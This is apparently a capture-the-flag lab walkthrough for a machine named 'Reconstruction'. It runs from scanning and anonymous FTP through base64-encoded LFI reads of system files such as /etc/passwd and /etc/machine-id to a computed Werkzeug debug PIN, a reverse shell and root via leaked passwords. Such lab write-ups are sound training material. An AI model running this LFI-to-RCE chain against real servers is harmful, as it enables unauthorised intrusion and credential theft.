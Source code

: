 # Reconstruction

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 00:04 +08
Nmap scan report for 192.168.183.103
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8080/tcp open  http-proxy
```

### Anonymous FTP --> Wireshark Password

FTP allows anonymous logins:

```
$ ftp 192.168.183.103 
Connected to 192.168.183.103.
220 (vsFTPd 3.0.3)
Name (192.168.183.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49037|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29  2020 WebSOC
-rw-r--r--    1 0        0             137 Apr 29  2020 note.txt
ftp> cd WebSOC
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32250|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         3086771 Apr 29  2020 1.05.2020.pcap
-rw-r--r--    1 0        0          869677 Apr 29  2020 29.04.2020.pcap
-rw-r--r--    1 0        0        14579662 Apr 29  2020 30.04.2020.pcap
```

`note.txt` mentions that there are passwords within the files:

```
I've just setup the new WebSOC! This should hopefully help us catch these filthy hackers!

TODO: remove leftover passwords from testing
```

Most of the PCAP files contained traffic generated from brute forcing the site, so it was pretty tedious looking through all of them. The `30.04.2020` PCAP file contained a lot of brute force attempts, while `1.05.2020` contained very few:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

And within that PCAP file, we can find a request that has a password that seems to work:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### Web Enum --> LFI

Port 8000 hosted the same Flask application:

<figure><img src="../../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

With the password we found earlier, we can login:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Attempting to view the 'Hello World' blog entry results in an error from Flask:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

There's a feature within this kind of web application that allows us to access the console to run Python code, but this one is protected by the PIN:

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

I ran a directory scan using `wfuzz`:

{% code overflow="wrap" %}
```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=308,404 -t 100 http://192.168.183.103:8080/FUZZ/
000000182:   302        3 L      24 W       253 Ch      "data"                      
000001225:   200        66 L     126 W      2011 Ch     "logout"                    
000001387:   302        3 L      24 W       257 Ch      "create"
```
{% endcode %}

There were just these 3 directories. `create` is pretty obvious in what it does, but `data` was not. Visiting it just shows this:

<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

Testing any directories with this shows the same page, but with a new header:

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

The `X-Error` showing `Incorrect Padding` is present, and when googled the first thing that comes up is `base64`:

<figure><img src="../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

If we use the `base64` encoded string of `/etc/passwd`, we get another unique error:

<figure><img src="../../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

Now there's an error saying there's no file or directory triggered by the newline character. This means we have LFI on the server if we use `echo -n`!

### Werkzeug PIN Calculation --> RCE

Since we have LFI on the Werkzeug server, we can actually calculate the PIN required.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

{% embed url="https://blog.gregscharf.com/2023/04/09/lfi-to-rce-in-flask-werkzeug-application/" %}

Using our LFI, we can get the parameters required. First, we need to get the ARP Address of the machine. First, we can find the ARP cache to identify the interface used:

```
$ echo -n '/proc/net/arp' | base64
L3Byb2MvbmV0L2FycA==
```

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

`ens160` is the interface name needed to find the ARP address:

```
$ echo -n '/sys/class/net/ens160/address' | base64
L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=
```

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Convert this to decimal using `python`:

```
$ python3       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056ba311e)
345052426526
```

Next, we need to get the machine ID.

```
$ echo -n '/etc/machine-id' | base64              
L2V0Yy9tYWNoaW5lLWlk
```

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

The machine ID needed some service name appended to the back of it, which we can get from reading `/proc/self/cgroup`.&#x20;

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We also need the user that started the application, which can be found in `/proc/self/environ`:

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

Afterwards, I tested it a few times, varying the public bits and testing the machine ID with and without `blog.service` appended to the end of it and eventually got it:

```python
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.6/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052425031',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '00566233196142e9961b4ea12a2bdb29'# get_machine_id(), /etc/machine-id
]
```

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

From here, we can easily get a reverse shell on our machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We cannot read the user flag yet.

## Privilege Escalation

### Jack Creds

Within `app.py` for the Flask website, we can find some credentials:

```
#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
```

We can `su` to `jack` using the commented password.

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

### Powershell --> Root Creds

Within the home directory of the user, I enumerated the directories present and noticed that there was a Powershell directory:

```
jack@reconstruction:~$ ls -la .local/share
total 12
drwxr-xr-x 3 root root 4096 Sep 30  2020 .
drwxr-xr-x 3 root root 4096 Sep 30  2020 ..
drwxr-xr-x 3 root root 4096 Sep 30  2020 powershell
```

Obviously this was rather odd. If we read the `ConsoleHost_History.txt` file at the end of it, we find this:

```
Write-Host -ForegroundColor Green -BackgroundColor White Holy **** this works!
Write-Host -ForegroundColor Red -BackgroundColor Black Holy **** this works as well!
su FlauntHiddenMotion845
clear history
clear
cls
exit
```

This password can be used to `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

